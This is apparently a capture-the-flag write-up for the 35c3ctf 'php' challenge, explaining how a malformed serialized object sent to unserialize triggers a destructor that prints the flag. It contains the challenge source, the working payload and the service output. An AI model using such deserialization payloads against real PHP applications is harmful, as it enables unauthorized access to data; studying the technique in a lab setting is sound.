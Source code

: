```yaml
---
layout: article
title: 35c3ctf - php
category: 35c3ctf
---
```


# php
>PHP's unserialization mechanism can be exceptional. Guest challenge by jvoisin.  
>Files at https://35c3ctf.ccc.ac/uploads/php-ff2d1f97076ff25c5d0858616c26fac7.tar. Challenge running at: `nc 35.242.207.13 1`

The tarball contains the following php code:

```php
<?php

$line = trim(fgets(STDIN));
$flag = file_get_contents('./flag');

class B {
  function __destruct() {
    global $flag;
    echo $flag;
  }
}

$a = @unserialize($line);
throw new Exception('Well that was unexpected…');
echo $a;
```

and the service running at `35.242.207.13 1` verifies that it's running the above code.

```bash
➜ nc 35.242.207.13 1
test input
PHP Fatal error:  Uncaught Exception: Well that was unexpected… in /home/user/php.php:16
Stack trace:
#0 {main}
  thrown in /home/user/php.php on line 16
```

From the source code and challenge description, it's obvious this is a PHP deserialization challenge. Our goal is clear, serialize some PHP code that will force the destructor of `B` to be called, echo-ing the flag to our console, _before_ the exception is thrown.

So how exactly do you call a class destructor in PHP? Well, the destructor will be called when the all references to the object are freed or when the script terminates properly - i.e. without any thrown exceptions. Since the exception will be thrown directly after the unserialize call, we can't rely on the script properly terminating. We must call the `__destruct()` function ourselves, ensuring it's done prior the the exception.

One last thing to note before we try any exploits - the `@` symbol before `unserialize()`. For those unfamiliar, when `@` is prepended to a function, any error messages that function may produce will be completely ignored (see: [PHP Error Controls Operators](http://php.net/manual/en/language.operators.errorcontrol.php)). If we were to ignore this symbol we may still get the flag, but we'd miss the nuance of why we were able to get it.

## Solution
From our static analysis, we have a solid idea on the attack vector for this challenge. First let's verify our above analysis by creating a simple serialized object.

```bash
➜ php -a
Interactive shell

php > $flag = "35C3_test_flag_";
php > class B {
php { function __destruct() {
php { global $flag;
php { echo $flag;
php { }
php { }
php > $xpl = new B;
php > echo serialize($xpl);
O:1:"B":0:{}
php >
```
PHP serialized objects are structured as a key-value pairs. Breaking down our serialized object, we have an object `B` (of name length `1`), with `0` properties. For more information, see: [PHP Serialization](http://www.phpinternalsbook.com/classes_objects/serialization.html) and [Fuzzing Unserialize](https://www.evonide.com/fuzzing-unserialize/).

With this knowledge, we can abuse the error suppression to create and destroy an object without causing the script to terminate. By sending `@unserialize()` a bad serial, e.g. `O:1:"B":1:{}` or `O:1:"B":0:{b}`, we force the code to instantiate a new object `B` and then free the object (i.e. call the destructor) due to a bad serial exception. The `@` symbol will force the code to ignore the exception and continue executing.

```bash
➜ php nc 35.242.207.13 1
O:1:"B":1:{}
35C3_php_is_fun_php_is_fun
PHP Fatal error:  Uncaught Exception: Well that was unexpected… in /home/user/php.php:16
Stack trace:
#0 {main}
 thrown in /home/user/php.php on line 16
 ```
